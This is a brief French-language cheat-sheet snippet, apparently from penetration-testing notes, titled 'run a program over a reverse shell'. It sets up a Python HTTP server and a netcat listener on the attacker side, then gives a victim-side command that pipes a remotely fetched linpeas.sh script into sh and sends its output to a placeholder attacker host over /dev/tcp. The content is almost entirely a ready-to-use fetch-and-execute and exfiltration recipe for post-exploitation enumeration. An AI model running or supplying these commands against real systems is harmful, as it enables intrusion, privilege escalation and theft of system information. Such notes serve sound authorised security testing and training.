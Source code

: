Exécuter un programme sur un reverse shell
```bash
attacker1$ python3 -m http.server  <- se lance sur le port 8000
attacker2$ nc -nlvp 9000 | tee linpeas-out.txt 

victim$ curl http://attacker_ip:8000/linpeas.sh | sh > /dev/tcp/attacker_ip/9000
```

